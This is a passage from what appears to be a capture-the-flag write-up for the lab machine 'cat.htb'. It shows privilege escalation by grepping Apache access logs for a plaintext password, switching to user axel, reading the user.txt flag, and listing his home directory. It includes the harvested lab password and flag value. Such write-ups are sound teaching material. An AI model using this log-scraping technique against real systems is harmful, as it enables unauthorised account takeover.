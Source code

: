 | Username |
| -------- |
| axel     |
| jobert   |

## Privilege Escalation to axel

To perform `privilege escalation` to `axel` we remembered the `login process` and that our `credentials` got send in `plaintext`. Therefore and through the `membership` of `adm` we checked the `Apache2 logfiles` just to find the `password` for `axel`.

```c
rosa@cat:/var/log/apache2$ grep axel access.log | head -3
127.0.0.1 - - [02/Feb/2025:10:12:40 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [02/Feb/2025:10:12:50 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [02/Feb/2025:10:13:01 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

| Username | Password             |
| -------- | -------------------- |
| axel     | aNdZwgC4tI9gnVXv_e3Q |

With his `password` in our pockets we `switched` the `user session` and grabbed the `user.txt`.

```c
rosa@cat:/var/log/apache2$ su axel
Password: 
axel@cat:/var/log/apache2$
```

## user.txt

```c
axel@cat:~$ cat user.txt 
e2a3b4008bc042335b8e699be2b8bb54
```

## Pivoting axel

As next step we `pivoted` through `axel` and figured out that he received an `email`.

```c
axel@cat:~$ id
uid=1000(axel) gid=1000(axel) groups=1000(axel)
```

```c
axel@cat:~$ ls -la
total 32
drwxr-x--- 5 axel axel 4096 Jan 21 12:52 .
drwxr-xr-x 6 root root 4096 Aug 30 23:19 ..
lrwxrwxrwx 1 root root    9 Jan 21 12:49 .bash_history -> /dev/null
-rw-r--r-- 1 axel axel 3739 Aug 29 18:29 .bashrc
drwx------ 2 axel axel 4096 Sep  7 05:23 .cache
drwxrwxr-x 3 axel axel 4096 Sep  4 02:26 .local
-rw-r--r-- 1 axel axel  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Sep  4 02:18 .python_history -> /dev/null
lrwxrwxrwx 1 root root    9 Jan 21 12:49 .sqlite_history -> /dev/null
drwx------ 2 axel axel 4096 Jan 14 17:09 .ssh
-rw-r----- 1 root axel   33 Feb  2 10:13 user.txt
```